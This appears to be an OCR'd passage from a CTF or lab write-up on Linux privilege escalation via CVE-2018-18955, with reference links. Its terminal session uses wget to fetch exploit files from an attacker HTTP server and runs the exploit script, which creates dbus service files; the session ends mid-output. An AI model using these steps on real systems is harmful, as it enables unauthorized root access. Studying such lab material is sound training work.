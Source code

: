 > **Privilege Escalation with Linux Kernel Exploit**
> 

**For more informations:**

[NVD - CVE-2018-18955](https://nvd.nist.gov/vuln/detail/CVE-2018-18955)

[Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method)](https://www.exploit-db.com/exploits/47166)

`ls | grep '.sh'`

```bash
exploit.dbus.sh
rootshell.c
subshell.c
subuid_shell.c
```

**For script source:**

[kernel-exploits/CVE-2018-18955 at master · bcoles/kernel-exploits](https://github.com/bcoles/kernel-exploits/tree/master/CVE-2018-18955)

```bash
beth@london:~$ mkdir /tmp/exp
beth@london:~$ cd /tmp/exp
beth@london:/tmp/exp$ wget http://10.2.37.37:8000/exploit.dbus.sh -O exploit.dbus.sh
exploit.dbus.sh                      100%[====================================================================>]   3.74K  --.-KB/s    in 0.004s  

2024-10-02 00:06:13 (961 KB/s) - ‘exploit.dbus.sh’ saved [3829/3829]

beth@london:/tmp/exp$ wget http://10.2.37.37:8000/rootshell.c -O rootshell.c
rootshell.c                          100%[====================================================================>]     143  --.-KB/s    in 0s      

2024-10-02 00:06:30 (20.4 MB/s) - ‘rootshell.c’ saved [143/143]

beth@london:/tmp/exp$ wget http://10.2.37.37:8000/subshell.c -O subshell.c
subshell.c                           100%[====================================================================>]   1.57K  --.-KB/s    in 0.001s  

2024-10-02 00:06:46 (1.23 MB/s) - ‘subshell.c’ saved [1604/1604]

beth@london:/tmp/exp$ wget http://10.2.37.37:8000/subuid_shell.c -O subuid_shell.c
subuid_shell.c                       100%[====================================================================>]   5.92K  --.-KB/s    in 0.007s  

2024-10-02 00:07:02 (862 KB/s) - ‘subuid_shell.c’ saved [6065/6065]

beth@london:/tmp/exp$ bash exploit.dbus.sh
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
```